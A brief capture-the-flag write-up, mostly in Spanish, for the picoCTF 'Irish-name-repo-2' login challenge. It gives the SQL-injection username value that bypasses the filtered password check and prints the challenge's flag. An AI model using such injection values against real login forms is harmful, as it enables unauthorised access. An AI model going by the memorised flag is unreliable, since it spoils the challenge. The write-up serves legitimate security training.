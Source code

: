 
# Irish-name-repo-2

# Descripción
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649
# Pistas
The password is being filtered
# Solución

```bash
# Inyeccion sql

user: admin';

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_aee925db}
```

# Bandera
picoCTF{m0R3_SQL_plz_aee925db}